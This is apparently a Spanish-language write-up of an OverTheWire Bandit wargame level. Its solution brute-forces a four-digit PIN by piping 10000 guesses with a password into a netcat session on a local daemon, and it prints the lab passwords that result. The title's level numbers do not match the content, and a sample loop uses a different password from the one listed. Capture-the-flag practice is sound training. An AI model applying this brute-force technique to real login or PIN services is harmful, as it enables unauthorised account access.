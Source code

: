 ### Bandit Level 21→ Level 22

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
bandit24 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
```
bandit24@bandit:~$ nc -v localhost 30002 
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, 
separated by a space. VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again. VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
Wrong! Please enter the correct pincode. Try again. ^C 
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003 bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done| nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single
line, separated by a space.
Correct! 
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d 
Exiting.

```
## Notas adicionales


## Referencias
- [Secure Shell (SSH) on Wikipedia](https://en.wikipedia.org/wiki/Secure Shell)
- [How to use SSH on wikiHow](https://www.wikihow.com/Use-SSh)